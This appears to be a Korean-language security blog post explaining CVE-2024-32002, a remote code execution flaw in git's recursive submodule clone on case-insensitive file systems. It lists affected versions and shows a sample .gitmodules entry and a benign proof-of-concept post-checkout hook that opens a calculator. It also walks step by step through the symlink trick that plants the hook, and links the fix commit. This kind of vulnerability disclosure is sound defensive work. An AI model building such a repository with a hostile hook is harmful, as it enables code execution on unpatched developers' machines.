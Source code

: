 ```yaml
---
title: "[하루한줄] CVE-2024-32002: git의 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, git, rce, sybmbolic link]
categories: [1day1line]
date: 2024-05-19 17:00:00
cc: true
index_img: /img/1day1line.png
---
```

## URL

https://amalmurali.me/posts/git-rce/

https://github.com/amalmurali47/git_rce

## Target

- git < v2.45.1
- git < v2.44.1
- git < v2.43.4
- git < v2.42.2
- git < v2.41.1
- git < v2.40.2
- git < v2.39.4

## Explain

버전 관리 시스템인 git의 clone 기능에서 발견된 원격 코드 실행 취약점의 세부 정보가 공개되었습니다.


[git clone](https://git-scm.com/docs/git-clone#Documentation/git-clone.txt---recurse-submodulesltpathspecgt) 기능은 저장소에 포함된 하위 모듈을 재귀적으로 함께 clone하는 `--recurse-submodules` 옵션이 존재합니다. 또한 git은 symbolic link를 지원하여 git 컨텍스트에서 저장소의 다른 부분을 참조하는데 사용할 수 있습니다.  

취약점은 대소문자를 구분하지 않는 Windows, MacOS와 같은 파일 시스템에서 `--recurse-submodules` 옵션을 사용해 저장소를 clone하는 과정에서 발견되었습니다.

하위모듈 경로는 일반적으로  `.gitmodules` 파일에 다음과 같이 작성됩니다.

```
[submodule "x/y"]
	path = A/modules/x
	url = git@github.com:amalmurali47/hook.git
```

해당 하위모듈 url은 https://github.com/amalmurali47/hook 저장소를 가리키며 해당 저장소의 `hook/post-checkout` hook script는 실행할 임의 코드가 작성되어 있습니다.

```
#!/bin/bash
echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
```

> 위 PoC는 https://github.com/amalmurali47/git_rce 에서 확인할 수 있습니다.
> 

대소문자를 구분하지 않는 파일시스템은 `A/modules/x` 및 `a/modules/x` 와 같은 경로를 동일하게 인식합니다. 이를 이용하면 다음과 같은 exploit이 가능합니다

1. clone 대상 저장소 `git_rce`에 `.git`을 가리키는 symbolic link `a` 생성
2. 해당 저장소를 recurse clone하면 git은 `.gitmodules`에 정의된 대로 하위 모듈용 디렉토리 `A/modules/x`를 생성해 해당 경로에 clone하려고 시도함
3. 그러나 대소문자를 구분하지 않는 파일시스템은 2번의 경로를 symbolic link인 `a`의 하위 경로 `a/modules/x` 로 인식함. 
4. `a`는 `.git` 을 가리키므로 원격 저장소의 `hook/post-checkout` hook script가 로컬 하위 모듈의 `.git/hook/post-checkout`에 생성됨
5. 해당 hook script는 checkout 성공 이후 자동으로 트리거되어 임의 코드 실행이 가능함

해당 취약점은 symbolic link를 지원하는 `core.symlinks` 기능이 활성화된 Windows 및 MacOS 시스템이 취약하며, 패치는 [커밋 링크](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)에서 확인할 수 있습니다.